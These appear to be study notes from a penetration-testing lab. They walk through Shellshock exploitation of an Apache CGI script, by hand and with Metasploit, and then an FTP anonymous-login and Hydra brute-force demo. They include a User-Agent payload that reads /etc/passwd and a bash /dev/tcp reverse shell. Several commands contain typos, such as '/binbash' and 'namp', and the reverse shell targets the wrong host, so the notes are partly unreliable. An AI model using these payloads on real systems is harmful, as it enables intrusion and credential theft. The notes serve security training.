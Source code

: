 # Exploiting Bash CVE-20214-6271 Vulnerability (Shellshock)

- Shellshock (CVE-2014-6271) is s family of vulnerabilites in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allwing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.
- Only affects Linux (not Windows)
- In context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.
  
- In order to exploit this vulnerability, we need to locate a input vector or script that allows you to communicate with Bash
- In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with bash.
- This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

## Demo: Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

### Manually

We want to get the target IP:

`ifconfig`

`namp -sV [target IP]`

Port 80, target IP is running a webserver. We can confirm this with the browser. The countdown is done by a CGI script. It executes the gettime.cgi script and we can access it because its in the root [targetip]/cgi.script. We can utilize this as our input vector. We can check if this system is vulnerable to our attack strategy:

`nmap -sV [target IP] --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`

Target is vulnerable and exploitable. Foxy Proxy allows to switch between Proxy's. We open BurpSuite and we use the default config:

Proxy -> Intercept ON -> We make a get request for the gettime.cgi script.

We are going to inject the special characters into the user agent http header. Send request to Repeater (rightclick) -> Repeater tab. We can replace the user agent information with our special characters. User Agent: `() { :; }; echo; echo; /binbash -c 'cat /etc/passwd'` To send this request: SEND. So it displays the output of this command in RESPONSE.

Getting reverse shell on target? We can utilize bash to connect to a listener to our kali linux system:

Listens to that port on the target system:

`nc -nvlp 1234`

We open Burpsuite, in REQUEST we replace our old command: `() { :; }; echo; echo; /binbash -c 'bash -i>&/dev/tcp/[target IP]/1234 0>&1'` SEND. we should get a reverse shell on our netcat listener. connection on target should be established:

We are logged in as the deamon@victim-1
`whoami`

enumerate info regarding the distro
`cat /etc/*issue`

gives us the kernel info
`uname -a`

### Automatically

`service postgresql start && msfconsole`

`search shellshock`

auxiliary module tells us if the target is vulnerable.

`use exploit/multi/http/apache_mod_cgi_bash_env_exec`

msf5 exploit: `show options`

`set rhosts [target IP]`

We need to specify the targeturi, which is the path to the cgi script:

`set targeturi /gettime.cgi`

`exploit`

successfully obtained meterpreter session on the target.

# FTP
- Protocol that uses port 21 and is used to facil itate file sharing between a server and client/clients
- Also frequently used as a means of transferring files to and from the directory of a web server.
- FTP authentication requires a username and a password combination. As a result, we can perform a brute-force attack on the FTP server in order to identify legitimate credentials
- In some cases, FTP servers may be configured to allow anonymous access, which consequently allows anyone to access to the FTP server without providing any legitimate credentials.

## Demo

ifconfig

nmap -sV [target IP]

anonymous access:

ftp [target IP]

_anonymous_

ls -al /usr/share/nmap/scripts | grep ftp-*

we can run the anon script to identify whether it is indeed vulnerable.

we want to perform the brute force with hydra:

hydra -L /usr/share/metasploit/-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target IP] -t 4 ftp

We get 7 valid passwords and we try some of them:

ftp [target IP]

dir

download a file:

get secret.txt

exit

ls

cat secret.txt

nmap -sV [target IP]

searchsploit ProFTPD



